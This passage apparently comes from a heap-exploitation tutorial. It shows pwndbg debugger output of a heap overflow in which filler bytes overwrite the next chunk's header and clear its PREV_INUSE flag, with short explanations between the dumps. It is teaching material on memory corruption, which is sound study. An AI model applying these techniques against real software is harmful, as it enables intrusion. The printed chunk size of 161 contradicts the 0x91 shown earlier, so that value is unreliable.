 ```bash
pwndbg> vis

0x603000	0x0000000000000000	0x0000000000000091	................
0x603010	0x00000000deadbeef	0x00000000cafebabe	................
0x603020	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x603030	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x603040	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x603050	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x603060	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x603070	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x603080	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x603090	0x0000000000000090	0x0000000000000090	................
0x6030a0	0x0000000000000000	0x0000000000000000	................
0x6030b0	0x0000000000000000	0x0000000000000000	................
0x6030c0	0x0000000000000000	0x0000000000000000	................
0x6030d0	0x0000000000000000	0x0000000000000000	................
0x6030e0	0x0000000000000000	0x0000000000000000	................
0x6030f0	0x0000000000000000	0x0000000000000000	................
0x603100	0x0000000000000000	0x0000000000000000	................
0x603110	0x0000000000000000	0x0000000000000000	................
0x603120	0x0000000000000000	0x0000000000020ee1	................	 <-- Top chunk

```

The dump confirms the classic overflow: the first chunk’s user data flows into the header of the next, letting us control its recorded size.

Dumping the heap with the `heap` command in **pwndbg** shows the current layout:

```bash
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x603000
Size: 0x90 (with flag bits: 0x91)

Allocated chunk
Addr: 0x603090
Size: 0x90 (with flag bits: 0x90)

Top chunk | PREV_INUSE
Addr: 0x603120
Size: 0x20ee0 (with flag bits: 0x20ee1)
```

The output confirms two user allocations at `0x603000` and `0x603090`, followed by the top chunk at `0x603120`.

Notice that the second chunk’s size field reflects the overflow: the `PREV_INUSE` bit is clear (0x90 instead of 0x91), signaling that the allocator believes the preceding chunk is free.

When the `vis` command can’t parse a corrupted heap chunk, print it directly with GDB:


```bash
pwndbg> p *((struct malloc_chunk *)0x603000)
$1 = {
  mchunk_prev_size = 0,
  mchunk_size = 161,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}

```
